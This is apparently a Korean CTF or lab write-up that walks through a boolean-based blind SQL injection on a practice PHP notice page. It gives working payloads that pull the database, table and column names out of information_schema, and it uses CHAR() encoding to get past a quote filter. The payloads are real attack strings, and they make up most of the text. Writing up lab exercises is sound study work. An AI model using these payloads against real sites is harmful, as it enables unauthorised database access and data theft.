 분석 결과, `notice_read.php` 요청에서 `id` 파라미터를 조작하여 SQL Injection이 가능할 것으로 보인다.

먼저 `id=118+or+1=1`로 요청을 보낸 결과, **게시물이 정상적으로 출력**되었다. 반면, `id=118+or+1=2`로 요청했을 때는 **`제목: test`, `내용: testtest` 라는 이상한 게시물 출력**되었다.

이 결과를 통해 `id` 파라미터 값이 SQL 쿼리에 직접 삽입되고 있다는 걸 알 수 있다.

이를 기반으로 **Boolean-Based Blind SQL Injection**을 시도하여, **데이터베이스 명,테이블명, 컬럼명, 플래그 값**까지 순차적으로 추출할 예정이다.

```sql
118 or ASCII(SUBSTRING(DATABASE(),?,1))=? and 1=1
```

> **데이터베이스 이름: `sqli_9`**

다음으로는 `information_schema.tables`를 활용하여, 현재 데이터베이스에 존재하는 테이블 이름을 한 글자씩 추출해보겠다.

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'sqli_9'
```

그러나 `'sqli_9'`과 같이 문자열을 따옴표로 감싸는 방식이 필터링되어 서버 응답이 정상적으로 나오지 않았다.

이에 따라 문자열 리터럴을 우회하기 위해 `CHAR()` 함수를 활용한 인코딩 방식으로 우회하였다.

```sql
118 or ASCII(SUBSTRING((SELECT table_name from information_schema.tables where table_schema=CHAR(115,113,108,105,95,57) LIMIT ?,1),?,1))=? and 1=1
```

> **테이블 결과:**
```csharp
[2 행]
[1] = f → f
[2] = l → fl
[3] = a → fla
[4] = g → flag
[5] = H → flagH
[6] = e → flagHe
[7] = r → flagHer
[8] = e → flagHere
End
```

테이블명을 성공적으로 추출했으므로, 이제 해당 테이블의 컬럼 이름을 구해보겠다.

```sql
118 or ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=CHAR(115,113,108,105,95,57) and table_name=CHAR(102,108,97,103,72,101,114,101) LIMIT ?,1),?,1))=? and 1=1
```

> **컬럼 결과:**
```csharp
1. idx
2. flag
3.
4.
5.
```
